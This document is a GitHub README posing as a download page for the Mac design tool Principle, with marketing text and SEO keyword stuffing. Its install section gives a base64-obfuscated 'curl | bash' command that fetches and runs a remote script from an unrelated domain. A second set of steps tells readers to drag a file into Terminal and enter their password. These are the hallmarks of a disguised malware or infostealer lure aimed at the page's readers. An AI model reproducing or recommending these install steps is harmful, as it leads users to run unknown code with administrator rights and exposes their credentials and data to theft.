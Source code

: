 # Principle Mac Download - Powerful Interactive Design Tool

![Principle Screenshot 1](https://principleformac.com/static/images/slider4_2x.4e3afe93d08be1a574ada42bd1807d50.jpg)

---

## 🔽 Download Principle for Mac

[![Download Now](https://img.shields.io/badge/Download_Principle-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/principle)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Principle for Mac?

Principle is an advanced interactive design tool designed exclusively for macOS, empowering designers to craft beautiful animations, seamless transitions, and engaging micro-interactions effortlessly. It serves as the perfect bridge between static design and dynamic prototyping, letting you transform your creative concepts into interactive experiences without any coding. Ideal for designing mobile apps, websites, or desktop software, Principle equips you with everything needed to build smooth, high-fidelity prototypes that feel real.  

What sets Principle apart from conventional design tools is its intuitive timeline-based animation system, instant real-time previews, and flawless compatibility with popular design platforms like Sketch and Figma. It supports sophisticated gestures, scrollable content, and dynamic user interactions, making it a top choice for UX/UI professionals. Fully optimized for Apple Silicon (M1/M2 processors), Principle delivers exceptional performance even when handling intricate animations and complex projects. Whether you're working independently or collaborating with a team, Principle ensures your design vision is communicated clearly and effectively.  

Key features like auto-animate, driver-based animations, and easy prototype exporting make Principle an indispensable tool for today's designers. Additionally, it includes a built-in player for testing interactions on the fly and a thriving community where you can find inspiration, resources, and support. From rapid prototyping to polished presentations, Principle streamlines your workflow and elevates your design process.

![Principle Screenshot 2](https://oceanofdmg.com/wp-content/uploads/2019/07/Principle-for-Mac-Latest-Version-Download-OceanofDMG.com_.jpg)

---

## Key Features & Benefits

- 🎨 Powerful animation and prototyping tools  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🖱️ Support for advanced gestures and interactions  
- 🌀 Auto-animate for seamless transitions  
- 📱 Export prototypes for sharing  
- 🛠️ Integration with Sketch and Figma  

Whether you're prototyping a new app or refining user flows, Principle empowers you to create interactive designs effortlessly.

---

## 🔍 Keywords

Principle for Mac, Principle Mac Download, Principle for Mac Download, Principle Mac, Principle Download Mac, Principle Download for Mac, principle full version, Mac Download Principle, Download Mac Principle, Download Principle Mac, Download Principle for Mac
